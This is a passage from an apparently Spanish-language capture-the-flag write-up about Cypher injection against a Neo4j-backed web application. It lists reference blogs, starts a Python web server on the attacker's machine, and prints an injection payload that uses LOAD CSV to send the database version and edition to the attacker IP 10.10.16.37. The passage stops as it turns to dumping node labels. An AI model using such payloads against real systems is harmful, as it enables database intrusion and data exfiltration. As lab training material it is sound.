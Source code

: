Dado que hemos comprobado que por detrás de la aplicación web se está utilizando `Cypher`, decidimos buscar como intentar explotar este lenguaje de consultas. Nos encontramos con los siguientes blogs los cuales nos explican diferentes PoC, inyecciones y definiciones sobre `Cypher Injection`.

{% embed url="https://pentester.land/blog/cypher-injection-cheatsheet/" %}

{% embed url="https://infosecwriteups.com/the-most-underrated-injection-of-all-time-cypher-injection-fa2018ba0de8" %}

{% embed url="https://notes.incendium.rocks/pentesting-notes/web/injection/cypher-injection" %}

{% embed url="https://infosecwriteups.com/onlyforyou-htb-lfr-rce-cypher-injection-neo4j-graph-database-pip3-download-code-execution-7855193b3d5c" %}

{% embed url="https://hackmd.io/@Chivato/rkAN7Q9NY" %}

Para recibir la información, deberemos de levantar un servidor web con Python, por ejemplo.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Realizaremos la siguiente inyección `Cypher` en la cual deberíamos de verificar la versión del servicio correspondiente. Por algún extraño suceso, no logramos que la información se nos envíe a nuestro servidor web, pero en la respuesta por parte del servidor, si se nos muestra la versión exacta del `Cypher`.

```cypher
' OR 1=1 WITH 1 as a CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://10.10.16.37/?version='+version+'&name='+name+'&edition='+edition as l RETURN 0 as _0 //"
```

<figure><img src="../../.gitbook/assets/imagen (475).png" alt=""><figcaption></figcaption></figure>

Montaremos un servidor web para poder recibir la información correspondiente al `Cypher Injection`.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Durante la prueba de inyección de `Cypher`, utilizamos la siguiente consulta para obtener todos los `labels` de los nodos de la base de datos `Neo4j`:

